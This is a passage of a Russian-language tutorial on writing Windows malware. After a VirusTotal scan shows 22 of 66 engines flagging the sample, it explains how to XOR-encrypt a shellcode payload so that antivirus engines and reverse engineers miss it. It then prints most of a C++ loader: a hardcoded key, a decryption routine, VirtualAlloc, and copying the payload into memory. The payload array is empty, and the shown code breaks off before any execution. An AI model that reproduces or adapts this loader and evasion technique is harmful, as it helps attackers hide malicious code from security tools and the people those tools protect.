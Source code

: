 [https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection](https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection)

**Итак, 22 из 66 антивирусных движков обнаружили наш файл как вредоносный.**    

Теперь попробуем уменьшить количество AV-движков, которые будут детектировать наш вредоносный файл.    

Для этого сначала мы должны зашифровать наш payload. Зачем нам это делать?
Основная цель шифрования - скрыть наш payload от антивирусов и реверс-инженеров, чтобы они не могли легко его идентифицировать.    

Цель шифрования - преобразовать данные, чтобы скрыть их от других.    
Для простоты в нашем случае мы используем XOR-шифрование.    

Давайте посмотрим, как использовать XOR для шифрования и дешифрования payload.    

Обновляем наш код вредоносного ПО:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload 
encrypted via XOR
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {};
unsigned int my_payload_len = sizeof(my_payload);

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
      data[i] = data[i] ^ key[j];
      j++;
  }
}


int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Decrypt (DeXOR) the payload
  XOR((char *) my_payload, my_payload_len, 
  my_secret_key, sizeof(my_secret_key));

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);
```